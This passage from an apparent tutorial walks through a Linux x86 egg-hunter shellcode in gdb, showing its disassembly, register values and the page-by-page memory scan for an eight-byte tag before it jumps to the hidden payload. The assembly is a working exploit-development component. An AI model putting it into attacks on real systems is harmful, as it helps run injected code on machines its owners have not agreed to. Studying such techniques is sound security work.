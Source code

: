 ~~~ nasm
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a061 in egg_hunter ()
(gdb)
~~~

As mentioned, the first virtual address space of relevance is typically `0x8048000`, however this egg hunter does not assume that the virtual memory address space for the given process follows conventional means. As such, the first address that is examined is `0x0001000`.

The following disassembly just displays how the page alignment occurs. Until a valid address is located, such as `0x8048000`, the comparison of `AL` and the lower byte of the `EFAULT` flag will always result in the zero flag being set, directing the execution of the process back to the page alignment instruction `dx,0xfff` and incrementing `EBX` and `EBX` by page sizes.

~~~ nasm
(gdb) break *0x0804a075
Breakpoint 2 at 0x804a075
(gdb) c
Continuing.
$5 = 0xfffffff2
$6 = 0x1004
$7 = 0x1000
$8 = 0x804a0c2
0x804a0c2:	0x00	0x00	0x00	0x00
eflags         0x216	[ PF AF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
=> 0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.

Breakpoint 2, 0x0804a075 in egg_hunter ()
(gdb)
Continuing.
$9 = 0xfffffff2
$10 = 0x2004
$11 = 0x2000
$12 = 0x804a0c2
0x804a0c2:	0x00	0x00	0x00	0x00
eflags         0x216	[ PF AF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
~~~